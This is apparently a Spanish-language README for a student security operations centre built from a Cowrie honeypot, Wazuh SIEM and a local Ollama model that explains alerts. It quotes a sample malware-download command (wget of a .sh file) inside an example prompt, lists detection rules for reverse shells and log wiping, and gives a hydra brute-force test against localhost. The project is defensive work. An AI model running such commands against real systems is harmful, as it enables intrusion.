







<div align="center">

[](https://wazuh.com)
[](https://github.com/cowrie/cowrie)
[](https://ollama.ai)
[](https://docker.com)

[](LICENSE)
[]()
[]()
[](https://attack.mitre.org/)

---

**SOC profesional que detecta ataques reales, los analiza con Inteligencia Artificial local y los presenta en dashboards interactivos.**

*Proyecto de Máster en Ciberseguridad — 100% local, sin coste, alineado con privacidad y cumplimiento tipo ISO/IEC 27001.*

</div>

---

## 📋 Índice

<details>
<summary>📖 Haz clic para expandir</summary>

1. [¿Qué es Valhalla SOC?](#-qué-es-valhalla-soc)
2. [¿Cómo funciona? (Explicación simple)](#-cómo-funciona-explicación-simple)
3. [Arquitectura del Sistema](#-arquitectura-del-sistema)
4. [Componentes Principales](#-componentes-principales)
5. [¿Qué es Ollama y qué hace aquí?](#-qué-es-ollama-y-qué-hace-aquí)
6. [Capturas de Pantalla](#-capturas-de-pantalla)
7. [Requisitos Previos](#-requisitos-previos)
8. [Guía de Puesta en Marcha](#-guía-de-puesta-en-marcha)
9. [Dashboards y Visualizaciones](#-dashboards-y-visualizaciones)
10. [Estructura del Proyecto](#-estructura-del-proyecto)
11. [Preguntas Frecuentes (FAQ)](#-preguntas-frecuentes-faq)
12. [Licencia y Créditos](#-licencia-y-créditos)

</details>

---

## 🎯 ¿Qué es Valhalla SOC?


**Valhalla SOC** es un **Centro de Operaciones de Seguridad** (Security Operations Center) completo que:

- 🪤 **Despliega un honeypot** (una trampa) que simula ser un servidor real para atraer atacantes
- 🔍 **Detecta ataques en tiempo real** como fuerza bruta, ejecución de comandos maliciosos, descargas de malware y reverse shells
- 🤖 **Analiza cada amenaza con IA local** usando Ollama (sin enviar datos a la nube)
- 📊 **Presenta todo en dashboards** profesionales con gráficas, tablas y métricas
- 🗺️ **Mapea ataques al framework MITRE ATT&CK** para clasificarlos según estándares internacionales

> **En palabras simples:** Es como poner una cámara de seguridad inteligente en internet que graba a los ladrones, analiza lo que hacen y te lo explica.

---

## 🧩 ¿Cómo funciona? (Explicación simple)

Imagina un edificio con un sistema de seguridad completo:

```
🏠 Edificio  →  🏪 Tienda falsa  →  📹 Cámaras  →  🧠 Analista IA  →  📺 Monitor
   (Internet)    (Honeypot Cowrie)   (Wazuh SIEM)    (Ollama)         (Dashboard)
```

### Paso a paso:

| Paso | Componente | Qué sucede |
|:---:|:---:|:---|
| 1️⃣ | 🪤 **Cowrie** | Se conecta a internet haciéndose pasar por un servidor SSH real. Los atacantes/bots lo encuentran e intentan entrar |
| 2️⃣ | 📝 **Logs JSON** | Todo queda registrado: cada intento de login, cada comando, cada archivo descargado |
| 3️⃣ | 🔍 **Wazuh** | Lee esos registros en tiempo real y los clasifica: "fuerza bruta", "descarga de malware", "reverse shell" |
| 4️⃣ | 🤖 **Ollama** | Recibe las alertas más graves y las analiza con IA, explicando qué está haciendo el atacante |
| 5️⃣ | 📊 **Dashboard** | Muestra todo de forma visual: gráficas, IPs atacantes, comandos ejecutados, mapeo MITRE ATT&CK |

---

## 🏗️ Arquitectura del Sistema

```
                    ┌─────────────────────────────────────────────┐
                    │              INTERNET / ATACANTES            │
                    └────────────────────┬────────────────────────┘
                                         │
                                    Puerto 2222
                                         │
                    ┌────────────────────▼────────────────────────┐
                    │          🪤 COWRIE HONEYPOT                  │
                    │   Simula SSH/Telnet real                    │
                    │   Registra TODA la actividad en JSON        │
                    └────────────────────┬────────────────────────┘
                              Volumen compartido
                            (cowrie_logs)
                                         │
                    ┌────────────────────▼────────────────────────┐
                    │          🔍 WAZUH MANAGER                   │
                    │   Lee logs de Cowrie en tiempo real         │
                    │   Aplica reglas personalizadas              │
                    │   Clasifica alertas por severidad           │
                    │   Mapea a MITRE ATT&CK                     │
                    │                                             │
                    │   Cuando alerta nivel ≥ 5:                  │
                    │   ────► Llama a Ollama para análisis IA     │
                    └──────────┬──────────────┬───────────────────┘
                               │              │
                    ┌──────────▼──────┐  ┌────▼──────────────────┐
                    │  🗄️ WAZUH        │  │  🤖 OLLAMA (IA Local) │
                    │  INDEXER         │  │  Puerto 11434         │
                    │  (OpenSearch)    │  │  Modelo: qwen2.5      │
                    │  Puerto 9200     │  │  Analiza amenazas     │
                    └──────────┬──────┘  └────────────────────────┘
                               │
                    ┌──────────▼──────────────────────────────────┐
                    │          📊 WAZUH DASHBOARD                  │
                    │   Puerto 443 (HTTPS)                        │
                    │   Dashboards interactivos                   │
                    │   Reportes PDF/CSV                          │
                    │   Alertas en tiempo real                    │
                    └─────────────────────────────────────────────┘
```

### Pipeline de datos:

```
Atacante → SSH al Honeypot → Log JSON → Wazuh lee log → Aplica decoder → 
→ Aplica regla → Genera alerta → Envía a Ollama (si nivel ≥ 5) → 
→ IA analiza → Todo se indexa en OpenSearch → Dashboard lo muestra
```

---

## 🔧 Componentes Principales

### 1. 🪤 Cowrie Honeypot — "La Trampa"

<details>
<summary>📖 Más información</summary>

**¿Qué es?** Un programa que simula ser un servidor SSH/Telnet real. Cuando un atacante se conecta, cree que está en un servidor de verdad, pero todo es falso.

**¿Qué hace en Valhalla SOC?**
- Escucha en el **puerto 2222** (SSH) y **2223** (Telnet)
- Simula ser un servidor Ubuntu con OpenSSH 8.9
- Permite que los atacantes "entren" con contraseñas comunes (root/admin, admin/password, etc.)
- **Graba absolutamente todo**: cada tecla, cada comando, cada archivo descargado
- Genera archivos de log en formato JSON

**Archivo de configuración:** `cowrie_config/cowrie.cfg`

</details>

---

### 2. 🔍 Wazuh — "El Cerebro del SIEM"

<details>
<summary>📖 Más información</summary>

**¿Qué es?** Wazuh es un SIEM (Security Information and Event Management) de código abierto. Es el sistema que recibe logs, los analiza y genera alertas.

| Componente | Puerto | Función |
|---|---|---|
| **Wazuh Manager** | 1514, 1515, 55000 | Lee los logs de Cowrie, aplica reglas, genera alertas, llama a Ollama |
| **Wazuh Indexer** | 9200 | Base de datos (OpenSearch) que almacena todas las alertas |
| **Wazuh Dashboard** | 443 | Interfaz web para ver dashboards, alertas y reportes |

</details>

**Reglas de detección personalizadas:**

| ID Regla | Nivel | Qué detecta | MITRE ATT&CK |
|---|---|---|---|
| 100110 | 5 | Login fallido | — |
| 100111 | 10 | 🔴 Fuerza bruta (5+ fallos en 120s) | T1110 |
| 100112 | 9 | 🟠 Login exitoso en honeypot | T1078 |
| 100113 | 12 | 🔴 Login exitoso tras fuerza bruta | T1078, T1110 |
| 100120 | 8 | 🟡 Comando ejecutado | T1059 |
| 100121 | 9 | 🟠 Comandos de reconocimiento | T1082 |
| 100130 | 13 | 🔴 Descarga de malware (wget/curl) | T1105 |
| 100140 | 15 | 🔴 Reverse shell | T1059, T1071 |
| 100150 | 14 | 🔴 Desactivar firewall/seguridad | T1562 |
| 100160 | 11 | 🔴 Persistencia (crontab) | T1053 |
| 100170 | 12 | 🔴 Anti-forense (borrar logs) | T1070 |
| 100180 | 12 | 🔴 Escalada de privilegios | T1548 |

---

## 🤖 ¿Qué es Ollama y qué hace aquí?

### ¿Qué es Ollama?

**Ollama** es un programa que permite ejecutar **modelos de Inteligencia Artificial (IA)** directamente en tu ordenador, sin necesidad de internet ni servidores en la nube. Es como tener un "ChatGPT" local y privado.

### ¿Por qué Ollama y no ChatGPT o la nube?

| Característica | Ollama (Local) | ChatGPT / Nube |
|---|---|---|
| **Privacidad** | ✅ Los datos nunca salen de tu equipo | ❌ Los datos van a servidores externos |
| **Coste** | ✅ Gratis, sin suscripciones | ❌ Pago por uso (costoso) |
| **Cumplimiento normativo** | ✅ Alineado con ISO 27001, GDPR | ⚠️ Requiere acuerdos de procesamiento |
| **Velocidad** | ✅ Sin latencia de red | ❌ Depende de la conexión |
| **Disponibilidad** | ✅ Funciona sin internet | ❌ Requiere internet |

### ¿Qué hace Ollama en Valhalla SOC?

Ollama actúa como un **analista de seguridad automatizado**:

```
1. Wazuh detecta una amenaza (nivel ≥ 5)
   ↓
2. Wazuh ejecuta custom-ollama.py con la alerta en JSON
   ↓
3. El script construye un prompt:
   "Eres un analista SOC. Alerta: 'Descarga de malware — wget
    http://10.0.0.1/malware.sh' desde IP 185.220.101.1.
    En 2 oraciones: describe el objetivo y el nivel de amenaza."
   ↓
4. Envía POST a http://host.docker.internal:11434/api/generate
   ↓
5. Ollama responde:
   "El atacante está descargando un script malicioso desde un servidor
    C2 para establecer persistencia. Nivel: CRÍTICO."
   ↓
6. La respuesta se indexa como alerta "Ollama AI Insight" (regla 100200)
   ↓
7. Aparece en el Dashboard
```

### Modelo de IA utilizado

| Parámetro | Valor |
|---|---|
| **Modelo** | `qwen2.5-coder:7b` (7 mil millones de parámetros) |
| **Tamaño** | ~4.5 GB |
| **Temperatura** | 0.3 (respuestas técnicas y deterministas) |
| **Max tokens** | 150 (respuestas concisas, ~2 oraciones) |

### ¿Cómo se conecta Ollama con Docker?

```
Ollama (en tu PC, puerto 11434)
        ↑
        │ POST http://host.docker.internal:11434/api/generate
        │
Wazuh Manager (dentro de Docker)
        │
        └── Script: /var/ossec/integrations/custom-ollama
```

> `host.docker.internal` es un nombre especial de Docker que significa "la IP de mi PC anfitrión vista desde dentro del contenedor".

---

## 📸 Capturas de Pantalla

### Dashboard principal de Wazuh
> Resumen de agentes, alertas de las últimas 24 horas, módulos de seguridad



---

### Agente INFIERNO con MITRE ATT&CK
> Tácticas detectadas: Evasión de Defensa, Acceso Inicial, Persistencia, Escalada de Privilegios



---

### Dashboard Cowrie Honeypot (tiempo real)
> 12.918 alertas críticas, timeline de eventos, top IPs atacantes, comandos ejecutados



---

### Dashboard de Reportes de Seguridad
> Resumen por regla, top 20 IPs atacantes, cobertura MITRE ATT&CK



---

### Monitores de alertas activos
> 7 monitores habilitados: Brute Force, Login Exitoso, Malware, Reverse Shell, Evasión, Volumen Anómalo, Persistencia



---

### Detalle de alerta activa
> Actividad Elevada - Advertencia, severidad 3 (Medio), monitor de Volumen Anómalo



---

### Generación de informes PDF
> Exportación directa desde el dashboard



---

## 💻 Requisitos Previos

### Hardware Mínimo

| Recurso | Mínimo | Recomendado |
|---|---|---|
| **RAM** | 8 GB | 16 GB |
| **CPU** | 4 cores | 8 cores |
| **Disco** | 20 GB libres | 50 GB libres |
| **GPU** | No necesaria | GPU NVIDIA (acelera Ollama) |

### Software Necesario

| Software | Para qué | Descargar |
|---|---|---|
| **Docker Desktop** | Ejecutar todos los servicios | [docker.com](https://www.docker.com/products/docker-desktop) |
| **Ollama** | IA local | [ollama.ai](https://ollama.ai/download) |
| **Git** | Clonar el repositorio | [git-scm.com](https://git-scm.com/downloads) |
| **Python 3.8+** | Scripts de configuración | [python.org](https://www.python.org/downloads/) |

---

## 🚀 Guía de Puesta en Marcha

> 📖 **Manual completo** disponible en [`MANUAL.md`](MANUAL.md)

### Inicio rápido (5 pasos)

```bash
# 1. Clonar el repositorio
git clone https://github.com/saantiidp/Valhalla-SOC.git
cd Valhalla-SOC

# 2. Configurar variables de entorno
cp .env.example .env

# 3. Instalar e iniciar Ollama + descargar modelo
ollama pull qwen2.5-coder:7b

# 4. Levantar toda la infraestructura
docker compose up -d

# 5. Crear dashboards y monitores (esperar 3-5 min tras paso 4)
pip install requests
python create_dashboards.py
python setup_monitors.py
python setup_reports.py
```

### Acceder al Dashboard

| Servicio | URL | Credenciales |
|---|---|---|
| 📊 Dashboard Wazuh | `https://localhost` | admin / admin |
| 🔌 Wazuh API | `https://localhost:55000` | wazuh-wui / wazuh-wui |
| 🗄️ OpenSearch | `https://localhost:9200` | admin / admin |
| 🪤 Honeypot SSH | `ssh localhost -p 2222` | ¡Es la trampa! 🪤 |
| 🤖 Ollama API | `http://localhost:11434` | Sin autenticación |

### Simular ataques de prueba

```bash
# Login fallido
ssh root@localhost -p 2222

# Fuerza bruta (con hydra)
hydra -l root -P wordlist.txt ssh://localhost:2222
```

---

## 📊 Dashboards y Visualizaciones

### Dashboard 1: Cowrie Honeypot (Tiempo Real)
> `https://localhost/app/dashboards#/view/valhalla-soc-cowrie`
- 🔴 Contador de alertas críticas
- 🥧 Distribución por severidad
- 📈 Timeline de eventos
- 🏆 Top 10 IPs atacantes
- 📋 Comandos ejecutados

### Dashboard 2: Reportes de Seguridad
> `https://localhost/app/dashboards#/view/valhalla-soc-reports`
- 📊 Alertas por nivel diario
- 📋 Resumen por regla
- 🗺️ Cobertura MITRE ATT&CK

### 7 Monitores en Tiempo Real (cada 5 min)

| Monitor | Severidad |
|---|---|
| Brute Force SSH | 🔴 CRÍTICO |
| Login Exitoso en Honeypot | 🔴 CRÍTICO |
| Descarga de Malware | 🔴 CRÍTICO |
| Reverse Shell / C2 | 🔴 CRÍTICO |
| Evasión de Defensa | 🔴 CRÍTICO |
| Volumen Anómalo (50+ eventos) | 🔴 CRÍTICO |
| Persistencia (crontab) | 🟠 ALTO |

---

## 📁 Estructura del Proyecto

```
Valhalla-SOC/
├── 📄 docker-compose.yml          ← Orquestación de servicios
├── 📄 .env.example                ← Variables de entorno
├── 📄 README.md                   ← Este archivo
├── 📄 MANUAL.md                   ← Manual de usuario completo
│
├── 📂 config/
│   ├── certs.yml                  ← Definición de nodos para certs
│   └── 📂 wazuh_indexer_ssl_certs/  ← Certificados TLS
│
├── 📂 cowrie_config/
│   ├── cowrie.cfg                 ← Configuración del honeypot
│   └── userdb.txt                 ← Credenciales trampa
│
├── 📂 wazuh_config/
│   ├── ossec.conf                 ← Config principal Wazuh
│   ├── 📂 decoders/               ← Parseo de logs Cowrie
│   ├── 📂 rules/                  ← Reglas de detección
│   └── 📂 integrations/
│       ├── custom-ollama.py       ← 🤖 Integración Ollama IA
│       └── custom-valhalla.py     ← Integración backend
│
├── 📄 create_dashboards.py        ← Crear dashboards Cowrie
├── 📄 setup_monitors.py           ← Crear monitores de alertas
└── 📄 setup_reports.py            ← Crear reportes de seguridad
```

---

## ❓ Preguntas Frecuentes (FAQ)

<details>
<summary><b>🔧 Generales</b></summary>

**¿Necesito saber programar?** No. Solo ejecutar comandos básicos en la terminal.

**¿Es legal poner un honeypot?** Sí, siempre que sea en tu propia red.

**¿Puede dañar mi ordenador?** No. Todo corre dentro de Docker (contenedores aislados).

**¿Funciona en Windows/Linux/Mac?** Sí, en los tres.

</details>

<details>
<summary><b>🤖 Sobre Ollama y la IA</b></summary>

**¿Es obligatorio Ollama?** No. El sistema funciona sin él, pero no tendrás análisis IA.

**¿Ollama envía mis datos a internet?** **No.** 100% local.

**¿Cuánta RAM necesita Ollama?** ~4-6 GB adicionales para el modelo.

**¿Puedo usar otro modelo?** Sí. Cambia `OLLAMA_MODEL` en `.env`. Alternativas: `llama3:8b`, `mistral:7b`.

**¿Qué pasa si Ollama no está corriendo?** Las alertas siguen funcionando, solo falta el análisis IA.

</details>

<details>
<summary><b>🔍 Sobre Wazuh</b></summary>

**Niveles de alerta:**

| Nivel | Significado |
|---|---|
| 0-4 | 🟢 Bajo / Informativo |
| 5-7 | 🟡 Medio |
| 8-9 | 🟠 Alto |
| 10-12 | 🔴 Muy Alto |
| 13-15 | ⚫ Crítico |

**¿Qué es MITRE ATT&CK?** Base de conocimiento que clasifica técnicas de ataque (ej: T1110 = Fuerza bruta).

</details>

<details>
<summary><b>🐛 Problemas Comunes</b></summary>

**Contenedores se reinician** → Falta RAM. Necesitas ≥8 GB libres para Docker.

**No accedo al Dashboard** → Espera 3-5 min. Verifica con `docker compose ps`.

**Certificado da error** → Normal. Es auto-firmado. Acepta la excepción.

**Ollama no analiza** → Verifica: `curl http://localhost:11434`

**¿Cómo paro todo?** → `docker compose down`

**¿Cómo borro todo?** → `docker compose down -v`

</details>

---

## 📜 Licencia y Créditos

| Tecnología | Licencia | Web |
|---|---|---|
| Wazuh | GPLv2 | [wazuh.com](https://wazuh.com) |
| Cowrie | MIT | [github.com/cowrie](https://github.com/cowrie/cowrie) |
| Ollama | MIT | [ollama.ai](https://ollama.ai) |
| Docker | Apache 2.0 | [docker.com](https://docker.com) |

---


<div align="center">

**⚔️ Valhalla SOC** — *Donde los ataques vienen a morir*

[]()
[]()

</div>
